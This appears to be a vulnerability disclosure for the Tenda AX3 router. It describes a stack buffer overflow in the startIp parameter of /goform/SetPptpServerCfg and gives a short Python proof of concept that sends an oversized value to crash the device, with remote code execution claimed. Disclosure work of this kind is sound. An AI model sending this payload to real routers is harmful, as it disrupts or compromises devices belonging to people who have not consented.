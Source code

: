 # Tenda Router AX3 Vulnerability

This vulnerability lies in the `/goform/SetPptpServerCfg` page which influences the lastest version of Tenda Router AX3. ([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html))

# Vulnerability description

There is a stack buffer overflow vulnerability in the `formSetPPTPServer` function.

The `v10` variable is directly retrieved from the http request parameter `startIp`.

Then `v10` will be splice to stack by function sscanf without any security check,which causes stack overflow.

![image-20220117231251679](1.png)

So by POSTing the page `/goform/SetPptpServerCfg` with proper `startIp`, the attacker can easily perform a **Remote Code Execution** with carefully crafted overflow data.

# POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetPptpServerCfg"

startIp = "a" * 1024

r = requests.post(url, data={'startIp': startIp})
print(r.content)
```

# Timeline

- 2022.01.17 report to CVE & CNVD